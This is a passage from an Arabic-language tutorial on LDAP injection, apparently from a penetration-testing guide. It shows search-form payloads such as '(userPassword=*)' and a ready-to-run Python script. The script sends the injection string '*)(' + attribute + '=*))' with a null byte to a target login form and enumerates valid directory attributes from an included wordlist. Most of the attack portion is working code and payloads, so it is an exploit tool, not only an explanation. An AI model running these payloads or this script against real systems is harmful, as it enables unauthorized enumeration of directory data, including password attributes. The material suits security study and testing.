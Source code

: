 #### ج. اختبار الخصائص في نموذج بحث
- **الاستعلام**: `(ATTRIBUTE=*)`
- **الإدخال**:
  - حقل البحث: `(ATTRIBUTE=*)`
  - أمثلة:
    - `(uid=*)`
    - `(cn=*)`
    - `(sn=*)`
    - `(userPassword=*)`
    - ... (كرر لجميع الخصائص)
- **كيف يعمل**:
  - إذا كان الموقع يحتوي على نموذج بحث (مثل البحث عن موظفين)، يتم إدخال الاستعلام مباشرة في حقل البحث.
  - الاستعلام الناتج: `(userPassword=*)`
  - إذا أعاد الموقع نتائج (مثل قائمة مستخدمين أو بيانات)، فالخاصية صالحة.
- **متى يُستخدم؟**:
  - عندما يكون لديك نموذج بحث يتفاعل مع LDAP.
  - عندما تريد اختبار الخصائص في سياق استعلامات البحث.

### 3. الأتمتة باستخدام سكربت
الاختبار اليدوي للخصائص قد يكون بطيئًا إذا كنت تختبر قائمة طويلة. يمكنك استخدام سكربت لأتمتة العملية. السكربت يرسل طلبات تحتوي على كل خاصية ويحلل الاستجابات لتحديد الخصائص الصالحة.

#### سكربت Python لاكتشاف الخصائص
```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://TARGET_URL.com/'  # استبدل بـ URL الموقع
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data={'login': '*)('+str(i)+'=*))\x00', 'password': 'bla'})
    if 'TRUE CONDITION' in r.text:  # استبدل TRUE CONDITION بنص يظهر عند النجاح
        fields.append(str(i))

print(fields)
```
- **الإعداد**:
  - أنشئ ملفًا يسمى `dic` يحتوي على قائمة بالخصائص (كل خاصية في سطر):
    ```
    uid
    cn
    sn
    userPassword
    mail
    givenName
    objectClass
    name
    surname
    commonName
    displayName
    telephoneNumber
    description
    memberOf
    sAMAccountName
    userPrincipalName
    ```
  - استبدل `https://TARGET_URL.com/` بعنوان الموقع المستهدف.